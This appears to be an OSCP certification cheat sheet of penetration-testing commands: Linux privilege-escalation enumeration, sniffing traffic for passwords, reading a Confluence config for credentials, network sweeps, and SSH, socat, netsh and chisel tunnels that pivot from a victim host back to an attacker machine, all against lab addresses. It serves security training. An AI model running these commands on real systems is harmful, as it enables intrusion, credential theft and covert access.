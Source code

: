 # OSCP
OSCP Cheat sheet

## Linux Privilege Escalation
### Manual Enumeration
#### User and group
```
id
```
#### Enumerates all users
```
cat /etc/passwd
```
#### Host name discovery
```
hostname
```
#### OS release and version
```
cat /etc/issue    
cat /etc/*-release
uname -a
```
#### Running processes
> **a** and **x** for all processes without tty, **u** for user readable
```
ps aux    
```
#### TCP/IP configuration + Routing
> **a** = all, **n** = avoid hostname resolution, **p** = process name
```
ip a
ifconfig
route
routel
netstat
ss -anp
```
#### Firewall rules
```
cat /etc/iptables/rules.v4
```
#### Scheduled tasks
```
ls -lah /etc/cron*
(sudo) crontab -l
```
#### Installed applications
> **dpkg** is for Debian systems. For Red Hat-based systems, use **rpm**
```
dpkg -l
```
#### Sensitive files
```
find / -writable -type d 2>/dev/null
```
#### Mounted filesystems and drives
```
cat /etc/fstab         \\\\ List of drives that will be mounted at boot
mount                  \\\\ List of all mounted filesystems
lsblk                  \\\\ List of all disks
```
#### Kernel modules
```
lsmod
/sbin/modinfo <name of module we want informations of "example: libata">
```
#### SUID programms
```
find / -perm -u=s -type f 2>/dev/null
```
### Automated Enumeration
>  This program has to be run on the victim's machine (There are plenty other programms that exists such as LinPEAS...)
```
./unix-privesc-check <mode> > output.txt
```
### Exposed Confidential Informations
#### User trails
> **6** and **6** are for minimum and maximum, **-t** is for pattern
```
env                               \\\\ Environment variables
cat .bashrc
crunch 6 6 -t Lab%%% > wordlist   \\\\ Creating a wordlist for bruteforce
```
#### Service Footprints
> run "command" every **-n** seconds
```
watch -n 1 "ps -aux | grep pass"
sudo tcpdump -i lo -A | grep "pass"  \\\\ -A (ASCI) -i (interface "lo")
```
### Insecure File Permission
```
grep "CRON" /var/log/syslog
```
### Insecure System Components
> **-C** filters the output based on name. **-r** means recursive
> Some of the Components might be protected by AppArmor...
```
ps u -C passwd
/usr/sbin/getcap -r / 2>/dev/null        \\\\ Manual enumeration of binaries with capabilities
sudo -l                                  \\\\ Lists available "sudo" commands of the current user
cat /var/log/syslog                      \\\\ Can help understanding why a command didn't work as expected
```
#### Exploit Kernel Vulnerabilities
```
cat /etc/issue        \\\\ General informations about the system
uname -r
arch                  \\\\ Gives architecture information
```

## Port Redirection and SSH Tunneling
### Port Forwarding with Linux tools
> **-ddd** = verbose, **fork** doesn't kill the connection after request, **-U** = User.
```
ip addr
ip route
cat /var/atlassian/application-data/confluence/confluence.cfg.xml
socat -ddd TCP-LISTEN:2345,fork TCP:10.4.216.215:5432
psql -h 192.168.50.63 -p 2345 -U postgres
```
### SSH Tunneling
> **-D** is for Dynamic, that's why only argument is put into the command, because we wait for every connection (not a precise one)
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
for i in $(seq 1 254); do nc -zv -w 1 172.16.50.$i 445; done
ssh -N -L 0.0.0.0:4455:172.16.50.217:445 database_admin@10.4.50.215
ss -ntplu
ssh -N -D 0.0.0.0:9999 database_admin@10.4.50.215
cat /etc/proxychains4.conf                                                          \\\\ This is the config file for "proxychain"
proxychains smbclient -L //172.16.50.217/ -U hr_admin --password=Welcome1234        \\\\ Same request as the last section, but with proxychain (for Dynamic tunneling)
proxychains nmap -vvv -sT --top-ports=20 -Pn 172.16.50.217                          \\\\ Nmap request with "proxychain"
```
### SSH Remote Port Forwarding
> **netsh** is a tool that manages Firewalls (It might need some administrator privileges to be ran.)
```
ssh -N -R 127.0.0.1:2345:10.4.50.215:5432 kali@192.168.118.4                        \\\\ "Bind shell" like port forwarding
psql -h 127.0.0.1 -p 2345 -U postgres
C:\Windows\Temp\plink.exe -ssh -l kali -pw <YOUR PASSWORD HERE> -R 127.0.0.1:9833:127.0.0.1:3389 192.168.118.4
netsh interface portproxy add v4tov4 listenport=2222 listenaddress=192.168.50.64 connectport=22 connectaddress=10.4.50.215
netsh interface portproxy show all
netsh advfirewall firewall add rule name="port_forward_ssh_2222" protocol=TCP dir=in localip=192.168.50.64 localport=2222 action=allow
netsh advfirewall firewall delete rule name="port_forward_ssh_2222"
netsh interface portproxy del v4tov4 listenport=2222 listenaddress=192.168.50.64
```
## Tunneling Through Deep Packet Inspection
```
tail -f /var/log/apache2/access.log                                          \\\\ Verifying the logs of Apache2 server
chisel server --port 8080 --reverse                                          \\\\ To run on the kali machine (server)
/tmp/chisel client 192.168.118.4:8080 R:socks > /dev/null 2>&1 &             \\\\ To run on the victim's machine (client)
ssh -o ProxyCommand='ncat --proxy-type socks5 --proxy 127.0.0.1:1080 %h %p' database_admin@10.4.50.215
```
